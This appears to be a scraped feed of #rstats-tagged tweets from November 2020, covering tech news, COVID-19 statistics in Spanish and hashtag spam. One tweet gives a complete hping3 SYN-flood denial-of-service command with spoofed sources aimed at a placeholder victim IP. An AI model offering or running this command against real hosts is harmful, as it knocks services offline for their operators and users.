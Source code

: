 


> **Dr. Kristin Eccles** (@kristineccles; 3/3): #CyPurr 2020 Holiday Buyer's Guide to #Tech https://t.co/OPwcSDjIV4 via @eff 
>
#bigdata 
#AI #IoT #Tech #Data #USA #Linux #UK #javaScript #FinTech #digitalTransformation #dataScience #dataScientist #WomenWhoCode #Rstats #FemTech #100daysOfCode #FRENCHtech #France #MachineLEARNiNG  [&#8618;](https://twitter.com/dataandme/status/1328155529726681090)




> **Thomas 'Fredo' Hütter** (@DerFredo; 3/3): COVID-19: EUROPA. DATO INTERESANTE: 15 de NOVIEMBRE CASOS DETECTADOS CADA MILLÓN DE HABITANTES. EL TOP 10 SON TODOS PAÍSES EUROPEOS. La 2da OLA está muy fuerte en todo el continente! #COVID19 #RStats #scraping @Worldometers https://t.co/x92ESKFW5p  [&#8618;](https://twitter.com/dataandme/status/1328113992796164097)




> **Dr. Ganapathi Pulipaka** (@gp_pulipaka; 3/2): DOS attack
DOS attack from Linux using hping3 DOS=Denial-of-Service
>
hping3 --rand-source -p 80 -S --flood "Victim_ip"
#DataScience #COVID19 #BigData #IoT #Python #RStats #JavaScript #CloudComputing #Serverless #DataScientist #Linux #Programming #Coding #100DaysOfCode https://t.co/dNmvoNyryZ  [&#8618;](https://twitter.com/dataandme/status/1328194412661366784)




> **Thomas 'Fredo' Hütter** (@DerFredo; 3/2): #DEVCommunity #MachineLearning #programming  #flutter #AI #javascript #womenwhocode #RStats #Serverless #CodeNewbie #DataScience #SaturdayThoughts #SaturdayMorning #SaturdayMotivation #SaturdayVibes #BreakingNews #BREAKING #Truth #TruthWillPrevail #Trump
https://t.co/gq2zWx5uDg  [&#8618;](https://twitter.com/dataandme/status/1328139115905363968)




> **Thomas 'Fredo' Hütter** (@DerFredo; 3/2): COVID-19: CASOS ACTIVOS EN EL MUNDO. TOP 15. 🇦🇷 se encuentra en la posición 13° (NO TERMINÓ LA PANDEMIA!!). 🇺🇸 lidera ampliamente. Muy alto 🇫🇷 🇮🇹 🇧🇪 (3 europeos). EXTREMAR LOS CUIDADOS! #COVID19 #Covid_19 #RStats @Worldometers https://t.co/OzarsfB2Lr  [&#8618;](https://twitter.com/dataandme/status/1328133396837625859)




> **tidyverse tweets** (@tidyversetweets; 3/2): 🤷🏻‍♂️ #rstats https://t.co/a3WA0CGx1U  [&#8618;](https://twitter.com/dataandme/status/1328130507738030081)




> **Chidambara .ML.** (@chidambara09; 3/1): Stairway by dr2, rendered in R. Predictable but fitting nonetheless.
>
#shadr adventures, an #rstats tale https://t.co/YFxEDad3YS  [&#8618;](https://twitter.com/dataandme/status/1328131413997195265)



